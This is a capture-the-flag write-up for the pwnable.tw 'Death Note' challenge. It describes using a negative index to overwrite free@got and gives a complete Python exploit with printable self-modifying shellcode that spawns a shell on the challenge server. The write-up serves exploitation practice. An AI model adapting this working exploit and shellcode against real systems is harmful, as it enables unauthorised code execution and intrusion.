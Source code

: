 # Death Note
> LongChampion, 23/03/2020

## Ideal
After "a few hours" with IDA, we will see this challenge is quite simple: We need to write a shellcode containing printable character only and having at most 80 characters. Then we use negative index to overwrite some `GOT` entries (make it point to your shellcode instead of point to function in libc). Fortunately, `heap` section is mark as `rwx` for easy exploitation.

Oke, search Google for some available shellcode, or use this [tool](https://github.com/VincentDary/PolyAsciiShellGen) to creat your own.

If there is no shellcode satisfy , we need to add some conditions. The shellcode used in the solution below is found in Internet: it contains only printable character and can change itself to spawn a shell. It is fucking short, too!. The only restriction here is that it need `$eax` point to the shellcode itself when executing. After trying a few time, we see that only `free` function have `$eax` point to its argument when called. So we need to overwrite `free@got` (at index -19) with address of our shellcode.

## Final Solution
```python
#!/usr/bin/env python2

from pwn import *

conn = connect('chall.pwnable.tw', 10201)


def connRead():
    sleep(1)
    read = conn.read()
    print read,
    return read


def connSendRaw(s):
    conn.send_raw(s)
    print s,


# +0
shellcode = asm('push 0x70707070')
shellcode += asm('push 0x70707070')
shellcode += asm('pop ecx')
shellcode += asm('sub byte ptr[eax + 36], cl')
shellcode += asm('sub byte ptr[eax + 45], cl')
shellcode += asm('sub byte ptr[eax + 47], cl')
shellcode += asm('sub byte ptr[eax + 49], cl')
shellcode += asm('sub dword ptr[eax + 51], ecx')
shellcode += asm('sub byte ptr[eax + 55], cl')
shellcode += asm('sub byte ptr[eax + 55], cl')
# +32
# the following shellcode is
#
# shellcode = asm('push 0x%08x' % unpack('/sh\x00', 32))
# shellcode += asm('push 0x%08x' % unpack('/bin', 32))
# shellcode += asm('push esp')
# shellcode += asm('pop ebx')
# shellcode += asm('xor ecx, ecx')
# shellcode += asm('xor edx, edx')
# shellcode += asm('xor esi, esi')
# shellcode += asm('xor eax, eax')
# shellcode += asm('mov al, SYS_execve')
# shellcode += asm('int 0x80')
shellcode += '\x68\x2f\x73\x68' # +36
shellcode += '\x70' # +37
shellcode += '\x68\x2f\x62\x69\x6e\x54\x5b\x31' # +45
shellcode += '\x39' # +46
shellcode += '\x31' # +47
shellcode += '\x42' # +48
shellcode += '\x31' # +49
shellcode += '\x66' # +50
shellcode += '\x31' # +51
shellcode += '\x30\x21\x7c\x3d' # +55
shellcode += '\x60'

connRead()
connSendRaw('1\n')      # add note
connRead()
connSendRaw('-19\n')    # input index
connRead()
connSendRaw(shellcode + '\n')   # set content

connRead()
connSendRaw('3\n')      # delete note
connRead()
connSendRaw('-19\n')    # input index

conn.interactive()  # you will get shell here
```
